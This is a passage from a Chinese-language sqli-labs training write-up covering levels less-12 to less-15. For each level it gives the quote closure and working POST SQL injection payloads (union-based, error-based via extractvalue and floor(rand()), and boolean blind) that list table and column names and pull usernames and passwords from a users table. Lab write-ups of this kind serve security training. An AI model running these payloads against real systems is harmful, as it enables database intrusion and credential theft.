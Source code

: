 基于POST型的字符型注入 闭合方式 ") 

```mysql
其他与less-11一模一样 不做wp了
uname=qwe") union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'-- -&passwd=123&Submit=Submit
```

------

## less-13

基于POST型的报错注入（真值无回显，假值报错） 闭合方式 ')

```mysql
uname=qwe') or 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) -- - &passwd=123&Submit=Submit
或者
uname=qwe') union select count(*),concat_ws('-',(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),floor(rand(0)*2)) as x from information_schema.columns group by x -- -&passwd=123&Submit=Submit &passwd=123&Submit=Submit
```

**如果这里出现 Subquery returns more than 1 row  报错 检查是否使用limit()函数**

```mysql
uname=qwe') union select count(*),concat_ws('-',(select username from users limit 0,1),floor(rand(0)*2)) as x from information_schema.columns group by x -- -&passwd=123&Submit=Submit &passwd=123&Submit=Submit
uname=qwe') union select count(*),concat_ws('-',(select password from users limit 0,1),floor(rand(0)*2)) as x from information_schema.columns group by x -- -&passwd=123&Submit=Submit &passwd=123&Submit=Submit
获取username,password
```

------

## less-14

基于POST型的报错注入 闭合方式 " 
其余的和 **less-13** 同理

```mysql
uname=qwe" union select count(*),concat_ws('-',(select password from users limit 0,1),floor(rand(0)*2)) as x from information_schema.columns group by x -- -&passwd=123&Submit=Submit &passwd=123&Submit=Submit 
```

------

## less-15

基于POST型的布尔盲注(时间盲注) 闭合方式 '

```mysql
uname=qwe' or ascii(substring((select database()),1,1))>=115 -- -&passwd=admin&Submit=Submit
```
